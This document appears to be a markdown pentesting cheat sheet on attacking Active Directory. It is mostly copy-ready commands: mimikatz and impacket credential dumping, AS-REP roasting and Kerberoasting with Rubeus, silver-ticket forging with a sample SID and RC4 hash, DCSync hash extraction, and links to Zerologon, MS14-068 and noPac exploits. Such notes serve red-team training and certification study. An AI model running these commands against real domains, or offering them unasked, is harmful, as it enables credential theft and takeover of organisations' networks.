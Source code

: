 # ⚔️ AD Exploitation

## Dumping Cached AD Credentials

!!! info
    **SYSTEM** privileges are needed

```shell
# linux
impacket-secretsdump -target-ip <target_ip> <domain>/<user>:<pass>@<target_ip>

# win
.\mimikatz.exe
privilege::debug

# dump cached NTLM hashes on the current system
sekurlsa::logonpasswords

# dump tickets
sekurlsa::tickets

# one-liner
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

## AS-REP Roasting

```mermaid
sequenceDiagram
    participant Attacker
    participant Domain Controller (KDC)
    participant Target User (No Preauth)

    Attacker->>Domain Controller (KDC): Sends AS-REQ for Target User (No Preauth)
    Domain Controller (KDC)-->>Attacker: Returns AS-REP with encrypted TGT
    Attacker->>Attacker: Extracts and cracks AS-REP offline
```

!!! info
    🐈‍⬛ Hashcat mode -> 18200

```shell
# linux
impacket-GetNPUsers -dc-ip <ip> -request <domain>/<user>:<password>

# windows
.\Rubeus.exe asreproast /nowrap
```

## Kerberoasting

```mermaid
sequenceDiagram
    participant Attacker
    participant Victim User
    participant Domain Controller (KDC)
    participant Service Account

    Attacker->>Victim User: Compromises user account
    Victim User->>Domain Controller (KDC): Requests TGT (AS-REQ)
    Domain Controller (KDC)-->>Victim User: Returns TGT (AS-REP)
    Victim User->>Domain Controller (KDC): Requests Service Ticket (TGS-REQ)
    Domain Controller (KDC)-->>Victim User: Returns Service Ticket (TGS-REP)
    Victim User->>Service Account: Accesses service with Service Ticket
    Attacker->>Victim User: Extracts Service Ticket
    Attacker->>Attacker: Cracks Service Ticket offline
```

!!! info
    🐈‍⬛ Hashcat mode -> 13100

```shell
# sync local time with server if error
ntpdate <dc_ip>

impacket-GetUserSPNs -request -dc-ip <ip> <domain>/<user>

# windows
.\Rubeus.exe kerberoast /nowrap
```

## Silver Ticket

```mermaid
sequenceDiagram
    participant Attacker
    participant Target Service
    participant Domain Controller (KDC)

    Attacker->>Attacker: Extracts NTLM hash of Service Account
    Attacker->>Attacker: Creates forged TGS (Silver Ticket)
    Attacker->>Target Service: Sends forged TGS to access service
    Target Service-->>Attacker: Grants unauthorized access
```

Three pieces of info are needed:

- SPN password hash
- Domain SID
- Target SPN

```shell
# windows 
# SPN hash
.\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords

# domain SID
whoami /user
# take everything except the last part; only the domain SID, not the user RID

# forge the ticket
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
exit

# show saved tickets
klist

# access the service
iwr -UseDefaultCredentials <servicename>://<computername>

# linux
impacket-ticketer -nthash <hash> -domain-sid <sid> -domain <domain> -spn <spn> <user>

# export the ticket
export KRB5CCNAME=<ticket>.ccache

# access the target
impacket-psexec <domain>/<user>@<target> -k -no-pass
```

## DCSync

The user needs the following permissions or must belong to a privileged group:

- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered Set

!!! info
    🐈‍⬛ Hashcat mode -> 1000

```shell
# linux
impacket-secretsdump -just-dc-user <target_user> <domain>/<user>:<pass>@<dc_ip>

# windows
.\mimikatz.exe
lsadump::dcsync /user:<domain\user>

# one-liner
.\mimikatz.exe "lsadump::dcsync /user:<domain>\<user>" "exit"
```

## CVEs and Exploits

- [CVE-2020-1472 - Zerologon](https://github.com/VoidSec/CVE-2020-1472)
- [MS14-068 - Golden Pac](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek) `impacket-goldenPac`
- [CVE-2021-42278 and CVE-2021-42287 - noPac](https://github.com/Ridter/noPac)
